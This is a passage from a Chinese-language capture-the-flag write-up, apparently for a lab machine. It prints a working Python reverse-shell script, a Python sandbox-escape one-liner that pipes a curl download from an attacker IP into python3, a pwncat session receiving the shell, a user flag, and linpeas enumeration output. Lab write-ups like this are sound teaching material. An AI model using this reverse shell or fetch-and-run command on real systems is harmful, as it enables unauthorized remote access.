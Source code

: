 那么就简单了，用 Python 写一个反连的 Python 脚本

```python
import socket,subprocess,os,pty
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("10.10.16.31", 9999))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
pty.spawn("bash")
```

然后将脚本传输到服务器上并执行

```python
> func = "".__class__.__base__.__subclasses__()[132].__init__.__globals__["syste"+"m"]
> func("curl 10.10.16.31/reverse-shell.py | python3")
```

即可得到回连的 shell

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[20:23:20] Welcome to pwncat 🐈!
[20:23:41] received connection from 10.10.11.62:42490
[20:23:45] 10.10.11.62:42490: registered new host w/ db
(local) pwncat$ back
(remote) app-production@code:/home/app-production/app$ whoami
app-production
```

## FLAG - USER

```flag title="/home/app-production/user.txt"
e235e6d55c14057f3b7ccc3da6845834
```

## 提权至 martin

上传 `linpeas.sh` 之后分析结果

```plaintext
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1001(app-production) gid=1001(app-production) groups=1001(app-production)

╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)
uid=1000(martin) gid=1000(martin) groups=1000(martin)
......

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/home/app-production/.gnupg/trustdb.gpg
/home/app-production/.gnupg/pubring.kbx
/home/app-production/app/reverse-shell.py.1
/home/app-production/app/reverse-shell.py.2
/home/app-production/app/instance/database.db

╔══════════╣ Last time logon each user
Username         Port     From             Latest
root             pts/1    10.10.16.16      Tue Mar 25 15:08:17 +0000 2025
martin           pts/0    10.10.16.17      Wed Mar 26 06:46:27 +0000 2025
```
